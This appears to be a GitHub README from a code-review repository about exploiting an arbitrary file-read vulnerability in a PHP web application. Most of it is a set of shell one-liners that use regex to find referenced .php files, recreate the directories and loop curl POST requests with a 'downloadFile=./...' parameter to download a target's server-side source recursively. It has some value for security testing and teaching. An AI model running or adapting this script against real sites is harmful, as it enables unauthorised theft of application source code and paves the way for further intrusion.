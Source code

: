 # Extract PHP files

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/c67fc7ed-2727-44c5-9425-e8ab4dc93d93"><br>

You have discovered a vulnerability that enables you to read internal server files, similar to the `readfile($input)` function in PHP.

To exploit this vulnerability, you dump the sitemap of your Burp Suite, and then filter all the `.php` files to download them.

However, be aware that these files might also include or reference other `.php` files in various ways, such as through `include`, `require`, `href`, `form action`, `require_once`, comments, etc.

Searching for these references one by one is not the most efficient and can become tedious. In this context, regular expressions (regex) prove to be incredibly useful.


## Example<br>

Currently, you possess knowledge of the files `index.php`, `auth.php`, and `redirect.php` which were extracted from the Burp Suite sitemap.

However, it's crucial to note that these files also reference unknown internal files in various ways, utilizing functions like `include()`, `require_once()`, `Location`, `form action`, and more.

Thankfully, by employing regular expressions (regex), you can easily extract all the referenced files and uncover further insights.

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/99b04175-bc22-498c-a63f-a0a566014358"><br>

## Steps
1. Extract all the referenced files.
2. Extract all the directories and create them on your local machine.
3. Download all the files using the wordlist "_php-files."
4. Continuously searching for more referenced .php files, until there are no more .php files left to download.
   
Note: You will see that you will have no more php files to download when the "_php-verify" file is empty or with garbage


```sh
# 1°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files

# 2°
for _dir in $(cat _php-files);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"

# 3°
for _file in $(cat _php-files);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done

# 4°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files
rm _php-verify; for _file in $(cat _php-files);do find * | grep -w "$_file" || printf "\n$_file" >> _php-verify ; done
rm _php-check; for _dir in $(grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | grep -wEv "_php-files|_php-verify" | awk -F'.php:' '{print $1}' | xargs -I@ sh -c "dirname @" 2>&- | sort -u); for _file in $(cat _php-verify);do printf "\n$_dir/$_file"; done | sort -u >> _php-check
for _dir in $(sort -u _php-check);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"
for _file in $(sort -u _php-check);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done
```
